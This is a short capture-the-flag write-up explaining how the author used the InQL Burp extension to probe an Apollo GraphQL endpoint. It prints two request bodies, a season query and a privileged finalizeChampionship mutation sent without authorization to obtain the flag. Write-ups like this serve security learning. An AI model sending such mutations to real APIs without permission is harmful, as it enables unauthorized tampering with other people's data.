

Daily challenge.
Hint: *Can you finalise the championship results?*

The webapp sends a `POST` request to the `/api/graphql` endpoint, which is vulnerable.
I used *InQL* Burp extension, to exploit it. First I fingerprinted an engine running on a server, which was *Apollo*.
Then I scanned it, and first I found out a query used to check current season:
```
{
    "query": "query GeneratedOperation {\n  currentSeason {\nid\n  name\n  status\n  standings {\nrank\n    username\n    wpm\n    accuracy\n  }\n  }\n}",
    "variables": {}
  }
```

With it I discover that current season has id=1.
As a hint says, I needed to finalize the championship, to do this I sent a query:
```
{
    "query": "mutation GeneratedOperation($seasonId: ID!) {\n  finalizeChampionship(seasonId: $seasonId) {\nseasonId\n  champion\n  finalized\n  prizeCode\n  }\n}",
    "variables": {"seasonId": "1"}
  }
```

And the response of that request gave me the flag.

